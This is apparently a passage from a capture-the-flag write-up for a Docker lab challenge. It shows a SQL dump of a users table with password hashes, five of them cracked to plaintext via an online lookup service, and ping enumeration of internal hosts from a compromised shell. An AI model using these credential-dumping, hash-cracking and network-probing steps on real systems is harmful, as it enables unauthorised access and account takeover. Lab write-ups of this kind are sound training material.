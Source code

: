 ```bash
# Listing tables and cracking passwords
\dt
SELECT * FROM users;

 id | username  |                             password                          

----+-----------+------------------------------------------------------------------
  1 | jason     | 367a8ecbf59820480aaa7ca145b1c1f7cb928480c00757f2694ed728952677df
  2 | mike      | 9524507d4b08e2c2ceaca11c161eb4190f98f54894bf2b9326759530e03d636e
  3 | kyra      | d6f8f1e262a45cb38a19d5ae3bebcbf86064e2ae2fa27d9328d3713aaf8b9847
  4 | brian     | 7a7bd81de4e6575c4c01a3f62f1ad4b715f3aa2c101a4e4e0dd247baeb423a5c
  5 | mounia    | 47108981a5e04d0371ba17856013b0563130f964f1380212cf092d43868c8a91
  6 | polestar  | 01621148306fc8fb7c2b95eeb5c37e375f90db53cf8313ea87c9c34c05b7e0e5
  7 | rudolph   | 73cd1b16c4fb83061ad18a0b29b9643a68d4640075a466dc9e51682f84a847f5
  8 | grinch    | fcfd075cbe367c158d5cfaa31fa06656a3e68f626388d96ee81b35dda4310b58
  9 | snowflake | e2ca6aec52558fcc04311983bad03e38ca5e799c239d202ae7a4f58aff8a6970
 10 | santa     | 7499aced43869b27f505701e4edc737f0cc346add1240d4ba86fbfa251e0fc35
```

### Password cracking via crackstation

<https://crackstation.net/>

```bash
 id | username  |                             Hash                                  |   Password
----+-----------+-------------------------------------------------------------------+------------
  1 | jason     | 367a8ecbf59820480aaa7ca145b1c1f7cb928480c00757f2694ed728952677df  |   Not found
  2 | mike      | 9524507d4b08e2c2ceaca11c161eb4190f98f54894bf2b9326759530e03d636e  |   Not found
  3 | kyra      | d6f8f1e262a45cb38a19d5ae3bebcbf86064e2ae2fa27d9328d3713aaf8b9847  |   Not found
  4 | brian     | 7a7bd81de4e6575c4c01a3f62f1ad4b715f3aa2c101a4e4e0dd247baeb423a5c  |   Not found
  5 | mounia    | 47108981a5e04d0371ba17856013b0563130f964f1380212cf092d43868c8a91  |   Not found
  6 | polestar  | 01621148306fc8fb7c2b95eeb5c37e375f90db53cf8313ea87c9c34c05b7e0e5  |   michelle
  7 | rudolph   | 73cd1b16c4fb83061ad18a0b29b9643a68d4640075a466dc9e51682f84a847f5  |   superman
  8 | grinch    | fcfd075cbe367c158d5cfaa31fa06656a3e68f626388d96ee81b35dda4310b58  |   butterfly
  9 | snowflake | e2ca6aec52558fcc04311983bad03e38ca5e799c239d202ae7a4f58aff8a6970  |   dragonfly
 10 | santa     | 7499aced43869b27f505701e4edc737f0cc346add1240d4ba86fbfa251e0fc35  |   chocolate
```

Enumerating further i found more ip addresses

```sh
appuser@frontend_app:/app$ ping -c 4 backend_app
ping -c 4 backend_app
ping: backend_app: Temporary failure in name resolution
appuser@frontend_app:/app$ ping -c 4 database_app
ping -c 4 database_app
PING database_app (172.29.0.3) 56(84) bytes of data.
64 bytes from database_app.docker_ctf_challenge_frontend_net (172.29.0.3): icmp_seq=1 ttl=64 time=0.068 ms
64 bytes from database_app.docker_ctf_challenge_frontend_net (172.29.0.3): icmp_seq=2 ttl=64 time=0.084 ms
64 bytes from database_app.docker_ctf_challenge_frontend_net (172.29.0.3): icmp_seq=3 ttl=64 time=0.085 ms
64 bytes from database_app.docker_ctf_challenge_frontend_net (172.29.0.3): icmp_seq=4 ttl=64 time=0.095 ms

--- database_app ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3087ms
rtt min/avg/max/mdev = 0.068/0.083/0.095/0.009 ms
```
